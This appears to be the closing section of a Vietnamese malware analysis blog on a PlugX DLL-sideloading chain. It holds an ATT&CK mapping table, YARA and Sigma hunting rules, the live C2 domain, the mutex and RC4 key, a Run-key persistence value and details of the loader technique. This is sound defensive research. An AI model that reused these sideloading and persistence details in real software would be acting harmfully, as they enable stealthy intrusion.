| `T1140`     | Defense Evasion: Deobfuscate/Decode Files or Information                           | Malware tự decode nhiều lớp trong runtime: decode string `\AVKTray.dat`, XOR-decode payload, RC4-decode config, XOR-decode từng config field và C2 entry. MITRE mô tả `T1140` là dùng cơ chế riêng để decode/deobfuscate thông tin đã bị che giấu.                                                                                                                                 |
| `T1562.001` | Defense Evasion: Impair Defenses: Disable or Modify Tools                          | Payload patch 5 byte đầu của `SetUnhandledExceptionFilter` bằng JMP tới stub trả `NULL`, làm vô hiệu hóa cơ chế exception filter ở cấp tiến trình. Ngoài ra runtime gọi `taskkill /f /im iediagcmd.exe`, có thể làm giảm khả năng user/admin dùng công cụ diagnostic network. Mapping này nên ghi mức confidence trung bình vì `iediagcmd.exe` không phải security tool thuần túy. |
| `T1497`     | Defense Evasion: Virtualization/Sandbox Evasion                                    | Có thể map nhẹ cho hành vi làm khó sandbox/analysis: patch exception filter, delay `Sleep(6000)`, `RtlRegisterWait` callback khiến stack trace đi qua `ntdll!TppExecuteWaitCallback`, và control-flow flattening. Tuy nhiên không thấy rõ logic check VM/sandbox, nên nên ghi là "analysis evasion behavior", không khẳng định là sandbox detection.                               |
| `T1071.001` | Command and Control: Application Layer Protocol: Web Protocols                     | Controller loop dùng WinHTTP kết nối `fruitbrat[.]com:443`, build HTTP GET request, dùng User-Agent giống Edge/Chrome và Cookie `q63S=<encoded context>` để beacon. MITRE mô tả `T1071.001` là C2 qua HTTP/S nhằm blend với traffic web hợp lệ.                                                                                                                                    |
| `T1573.002` | Command and Control: Encrypted Channel: Asymmetric Cryptography                    | C2 dùng HTTPS qua port 443, do đó có lớp TLS cho transport. Không nên ghi malware tự triển khai asymmetric crypto; chỉ nên mô tả là "communication over HTTPS/TLS".                                                                                                                                                                                                                |
| `T1082`     | Discovery: System Information Discovery                                            | Payload build command/result object có system time, host ID, computer name/domain/username; client ID được lưu tại `HKCU\Software\Classes\ms-pu\CLSID` để định danh host. MITRE mô tả `T1082` là thu thập thông tin OS/hardware/system để định hình hành vi tiếp theo.                                                                                                             |
| `T1033`     | Discovery: System Owner/User Discovery                                             | `fn_collect_system_identity_strings_1004BF30` thu thập username/domain/computer identity để đưa vào runtime context hoặc kết quả trả về C2.                                                                                                                                                                                                                                        |
| `T1083`     | Discovery: File and Directory Discovery                                            | Command dispatch surface có handler enumerate/list/delete filesystem và các nhánh file operation, cho phép C2 duyệt hoặc thao tác file trên máy nạn nhân.                                                                                                                                                                                                                          |
| `T1057`     | Discovery: Process Discovery                                                       | Command surface có process-related capability; ngoài ra side-effect `taskkill iediagcmd.exe` cho thấy payload xử lý process theo tên. Nếu chưa thấy routine list process rõ ràng thì để confidence trung bình.                                                                                                                                                                     |
| `T1059`     | Execution: Command and Scripting Interpreter                                       | Handler `fn_handle_process_launch_command_1001329A` có khả năng launch process và capture output qua pipe, tương đương chức năng thực thi command từ C2. Nếu trong code xác nhận dùng `cmd.exe`, có thể đổi cụ thể thành `T1059.003 - Windows Command Shell`.                                                                                                                      |
| `T1105`     | Command and Control: Ingress Tool Transfer                                         | Command handler `fn_handle_download_execute_command_100121D6` có khả năng tải file từ C2, ghi xuống disk và execute. Đây là transfer payload/tool bổ sung trong giai đoạn post-compromise.                                                                                                                                                                                         |
| `T1041`     | Exfiltration: Exfiltration Over C2 Channel                                         | Các handler upload/file transfer gửi result hoặc file content về C2 qua cùng kênh WinHTTP. Nếu muốn chặt chẽ hơn, có thể giữ ở mức "potential based on implemented capability" nếu chưa quan sát traffic exfil thực tế.                                                                                                                                                            |
| `T1020`     | Exfiltration: Automated Exfiltration                                               | Có thể map phụ cho streamed file upload/file transfer nếu handler tự động chia chunk và gửi về C2 theo session. Nếu chưa chứng minh auto-trigger từ C2 response, nên ghi confidence thấp/trung bình.                                                                                                                                                                               |

## XIII. Phụ lục C - Detection & Hunting Playbook

Phụ lục này tổng hợp các hướng detection/hunting có thể áp dụng cho chain `Browser_Updater -> Avk.exe -> Avk.dll -> AVKTray.dat -> final_payload`. Trọng tâm không nằm ở một IOC đơn lẻ, mà ở các chuỗi hành vi khó thay đổi như: đọc file `.dat`, cấp quyền RWX, thực thi callback qua `RtlRegisterWait`, thiết lập Run key với filler arguments, và khởi tạo WinHTTP C2 từ `%PUBLIC%\GData`.

### XIII.1. Behavior chains

#### chain_avk_dat_loader

```text
Process loads Avk.dll or any DLL not signed by G Data
AND opens sibling AVKTray.dat
AND reads AVKTray.dat into private memory
AND changes private memory protection to PAGE_EXECUTE_READWRITE
AND registers RtlRegisterWait callback target inside that private memory
AND SetEvent triggers callback execution
```

Đây là behavior chain mạnh nhất ở giai đoạn loader. Một executable hợp pháp như `Avk.exe` tự nó chưa đủ đáng ngờ, nhưng khi nối với chuỗi `load DLL -> read sibling .dat -> RWX -> RtlRegisterWait callback -> SetEvent`, khả năng false-positive giảm đáng kể.

#### chain_persistence

```text
HKCU Run value name = "G Data"
AND value data matches:
    /Avk\.exe\s+\d+\s+\d+/
```

Run key của mẫu này có dạng:

```text
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\G Data
    = "C:\Users\Public\GData\Avk.exe" 688 768
```

Hai số phía sau không phải cấu hình thật, mà là filler arguments để đẩy `argc` lên 3. Vì vậy detection nên tập trung vào pattern:

```text
<GData path>\Avk.exe <number> <number>
```

#### chain_c2_winhttp

```text
Process running from %PUBLIC%\GData
AND reads HKCU Internet Settings ProxyEnable / ProxyServer
AND calls WinHttpOpen with Edge/Chrome-like User-Agent
AND calls WinHttpConnect to fruitbrat.com:443
AND sends HTTP request with Cookie q63S=<encoded context>
```

Chain này hữu ích ở network/runtime layer. Malware cố làm request giống browser bằng User-Agent kiểu Edge/Chrome, đồng thời đọc proxy settings của user để traffic phù hợp với môi trường thật.

---

### XIII.2. Memory hunting

Các dấu hiệu nên hunt trong memory:

```text
Private executable pages
AND page contains MZ/PE-like mapped image
AND allocation/mapped image size around 0x9A000–0xA1000
AND process previously read a .dat file
```

Một số runtime artifacts có thể xuất hiện sau khi payload đã giải mã:

```text
aumhYjQIQ
VOphJo
fruitbrat.com
%public%\GData
\\??\\
```

Các string này không nhất thiết tồn tại plaintext trên disk. Chúng thường chỉ lộ ra trong memory sau các bước decode như XOR `0x63`, RC4 `VOphJo`, và per-field XOR.

Ngoài ra có thể kiểm tra integrity của API:

```text
SetUnhandledExceptionFilter first 5 bytes = E9 ?? ?? ?? ??
```

Nếu 5 byte đầu của `SetUnhandledExceptionFilter` bị thay bằng JMP instruction, đây là dấu hiệu API đã bị patch trong process. Với mẫu này, payload patch API để chuyển hướng về stub trả `NULL`.

---

### XIII.3. YARA hint

Rule dưới đây chỉ nên xem là hunting hint, không phải production rule hoàn chỉnh. Lý do là một số artifact như mutex, C2, install path chỉ xuất hiện rõ sau khi payload đã được giải mã hoặc dump từ memory.

```yara
rule plugx_avk_chain_runtime_hunt
{
    meta:
        description = "Hunting hint for PlugX AVK/AVKTray chain runtime artifacts"
        family = "PlugX"
        chain = "Avk.exe -> Avk.dll -> AVKTray.dat"
        author = "nigmaz"
        confidence = "medium"

    strings:
        /*
            AVKTray.dat suffix obfuscation hint.
            Original wide string is decoded by XOR 0xE8,
            with the last word XORed by 0xAD.
            Verify this byte pattern per sample before using in production.
        */
        $suffix_obf = { ?? E8 ?? E8 ?? E8 ?? E8 ?? E8 ?? E8 ?? E8 ?? E8 ?? E8 ?? E8 ?? E8 ?? AD }

        /*
            Runtime config hint:
            RC4 key length = 6, key = "VOphJo".
            This may be visible in decoded payload/config memory.
        */
        $rc4_key = "VOphJo" ascii

        /*
            Runtime plaintext artifacts.
            These are more suitable for memory scanning than on-disk scanning.
        */
        $mutex_a = "aumhYjQIQ" ascii
        $mutex_w = "aumhYjQIQ" wide

        $install_a = "%public%\\GData" ascii nocase
        $install_w = "%public%\\GData" wide nocase

        $c2_a = "fruitbrat.com" ascii
        $c2_w = "fruitbrat.com" wide

        $nt_prefix_w = "\\??\\" wide

    condition:
        /*
            Use this against memory dumps or decoded payload dumps.
            Do not rely on it for raw AVKTray.dat only.
        */
        3 of ($rc4_key, $mutex_*, $install_*, $c2_*, $nt_prefix_w)
}
```

Nếu muốn viết rule cho file on-disk `AVKTray.dat`, nên viết riêng theo cấu trúc file và decode stub, vì raw `.dat` không chứa đầy đủ plaintext artifacts.

---

### XIII.4. Sigma idea - Windows Registry persistence

```yaml
title: PlugX AVK Persistence Via HKCU Run G Data
id: 7a7d8a34-avk-plugx-run-gdata
status: experimental
description: Detects PlugX-style persistence using HKCU Run value named "G Data" pointing to Avk.exe with two numeric filler arguments.
references:
  - Internal malware analysis report
author: nigmaz
date: 2026/01/01
tags:
  - attack.persistence
  - attack.t1547.001
  - attack.defense_evasion
  - attack.t1036.005
logsource:
  product: windows
  category: registry_set
detection:
  selection_run_key:
    TargetObject|contains: '\Software\Microsoft\Windows\CurrentVersion\Run\G Data'
  selection_value:
    Details|re: '(?i)Avk\.exe"?\s+\d+\s+\d+'
  condition: selection_run_key and selection_value
falsepositives:
  - Legitimate G DATA software should not normally create a Run value with Avk.exe followed by two numeric arguments from C:\Users\Public\GData.
level: high
```

Nếu log source đang dùng Windows Security Event ID `4657`, có thể dùng biến thể sau:

```yaml
title: PlugX AVK Persistence - HKCU Run G Data
status: experimental
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4657
    ObjectName|contains: 'CurrentVersion\Run'
    ObjectValueName: "G Data"
    NewValue|re: '(?i)Avk\.exe"?\s+\d+\s+\d+'
  condition: selection
level: high
```

---

### XIII.5. Hunting notes

Một số truy vấn/hướng hunt nên ưu tiên:

```text
1. Process chạy từ:
   C:\Users\Public\GData\Avk.exe

2. Thư mục chứa bộ ba:
   Avk.exe
   Avk.dll
   AVKTray.dat

3. Process có command line dạng:
   Avk.exe <number> <number>

4. Process đọc AVKTray.dat rồi tạo private executable memory.

5. Process gọi RtlRegisterWait với callback nằm trong private memory.

6. Process patch SetUnhandledExceptionFilter bằng JMP opcode E9.

7. Process đọc:
   HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ProxyEnable
   HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ProxyServer

8. Process kết nối:
   fruitbrat.com:443
```

Các IOC như `fruitbrat.com`, `aumhYjQIQ`, `VOphJo` là các giá trị config có thể dễ dàng thay đổi đối với các cuộc tấn công khác. Detection bền hơn nên dựa vào chuỗi hành vi:

```text
signed-looking EXE
-> sideload DLL
-> read sibling .dat
-> flip RWX
-> callback execution
-> manual-map final payload
-> HKCU Run persistence
-> WinHTTP C2
```

---

## Kết luận

Mẫu này thể hiện một chain PlugX nhiều lớp, trong đó từng thành phần được tách vai trò rất rõ: `Avk.exe` là executable hợp pháp dùng làm vỏ sideload, `Avk.dll` là loader trung gian, còn `AVKTray.dat` là container chứa payload đã mã hóa. Khi nhìn riêng từng file, dấu hiệu độc hại không quá rõ ràng; nhưng khi nối chuỗi `Avk.exe -> Avk.dll -> AVKTray.dat -> final_payload`, có thể thấy đầy đủ các hành vi của một implant: self-install, persistence, mutex, client identity registry, proxy-aware WinHTTP C2 và command dispatch.

Điểm quan trọng của mẫu này không chỉ nằm ở IOC như domain `fruitbrat[.]com`, mutex `aumhYjQIQ` hay RC4 key `VOphJo`, vì các giá trị này có thể bị thay đổi trong biến thể tiếp theo. Giá trị phòng thủ bền hơn nằm ở chain-level behavior: DLL sideloading, đọc payload dạng `.dat`, cấp quyền RWX, thực thi callback qua `RtlRegisterWait`, manual-map PE trong memory, sau đó ghi Run key với filler arguments để điều hướng `argc`.

Trong quá trình phân tích, mình cũng xây dựng một script extractor riêng cho chain này: `plx_config_extractor.py`. Script nhận trực tiếp `AVKTray.dat`, XOR-decode payload với key được truyền vào, trích xuất config blob từ `final_payload`, RC4-decode bằng key trong blob, sau đó XOR-decode từng UTF-16LE field để in ra config JSON. Flow này được mô tả ngay trong script: `AVKTray.dat -> XOR decode final_payload -> read encoded config blob -> RC4 first-stage decode -> XOR UTF-16LE field decode -> print config JSON`

- File Python Extractor: [plx_config_extractor.py](https://github.com/nigmaz/nigmaz.github.io/blob/main/src/content/posts/apt-mustang-panda-plugx-2026/archived/plx_config_extractor.py).

Script này có thể dùng để đối chiếu nhanh các mẫu PlugX/AVKTray khác có logic tương tự. Nếu sample mới vẫn giữ cấu trúc gần giống - ví dụ payload nằm trong `.dat` sau offset cố định, có config blob trong decoded payload, dùng RC4 + per-field XOR - thì chỉ cần điều chỉnh các constant như offset, size hoặc XOR key là có thể kiểm tra config, C2, mutex, install path và marker của biến thể mới.

> **Note cho việc đối chiếu biến thể:** Với các mẫu PlugX/AVKTray có logic tương tự, trước khi chạy extractor cần xác định lại tối thiểu ba giá trị theo từng sample:
>
> 1. `Payload start offset` - offset bắt đầu vùng payload encoded trong file `.dat`, ví dụ mẫu này là `0x6` hoặc `0xD` tùy biến thể.
> 2. `Config offset in payload` - offset của config blob trong decoded payload, ví dụ `0x93418`; giá trị này có thể giữ nguyên ở một số mẫu cùng family/build.
> 3. `XOR key` - key dùng để decode payload từ `.dat`, ví dụ `0x63` trong mẫu hiện tại.
>
> Nếu ba giá trị này sai, extractor vẫn có thể chạy nhưng payload decode ra sẽ không đúng, `MZ header` có thể không xuất hiện, hoặc config JSON sẽ lỗi/ra dữ liệu rác. Vì vậy khi phân tích biến thể mới, nên xác nhận lần lượt: `.dat offset -> XOR key -> decoded payload MZ -> config offset -> RC4/XOR config fields`.

Tóm lại, hướng phân tích và detection hiệu quả nhất với mẫu này là đọc theo chain thay vì đọc theo từng file. IOC giúp triage nhanh, nhưng behavior chain và extractor config mới là phần hữu ích hơn để so sánh, hunting và theo dõi các biến thể tiếp theo.
